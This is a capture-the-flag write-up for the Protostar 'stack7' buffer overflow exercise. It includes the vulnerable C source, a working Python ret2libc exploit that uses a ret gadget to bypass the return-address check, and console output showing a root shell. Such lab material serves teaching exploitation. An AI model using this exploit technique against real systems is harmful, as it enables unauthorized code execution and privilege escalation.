

# Stack 7

Stack6 introduces return to `.text` to gain code execution.

The metasploit tool "msfelfscan" can make searching for suitable instructions very easy, otherwise looking through `objdump` output will suffice.

This level is at `/opt/protostar/bin/stack7`

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

char *getpath()
{
  char buffer[64];
  unsigned int ret;

  printf("input path please: "); fflush(stdout);

  gets(buffer);

  ret = __builtin_return_address(0);

  if((ret & 0xb0000000) == 0xb0000000) {
      printf("bzzzt (%p)\n", ret);
      _exit(1);
  }

  printf("got path %s\n", buffer);
  return strdup(buffer);
}

int main(int argc, char **argv)
{
  getpath();
}
```

## Solution

With `objdump -D stack7` we can get the address of the `ret` instruction in the `getpath()` function:



Let's add this address in our payload:

```python
#!/usr/bin/python
import struct

# 1. Create buffer
offset = 80
buffer = 'A' * offset
# 2. Little endian conversion
libc = 0xb7e97000
system = struct.pack('<I', libc + 0x00038fb0)
ret_getpath = struct.pack('<I', 0x8048544)
fn_exit = struct.pack('<I', libc + 0x0002f0c0)
binsh = struct.pack('<I', libc + 0x11f3bf)

payload = buffer + ret_getpath + system + fn_exit + binsh

print(payload)
```

Then we can exploit `stack7`:

```console
user@protostar:/opt/protostar/bin$ (python /tmp/exploit-7.py; cat) | ./stack7
input path please: got path AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAD����`췿c��
id
uid=1001(user) gid=1001(user) euid=0(root) groups=0(root),1001(user)
^C
```

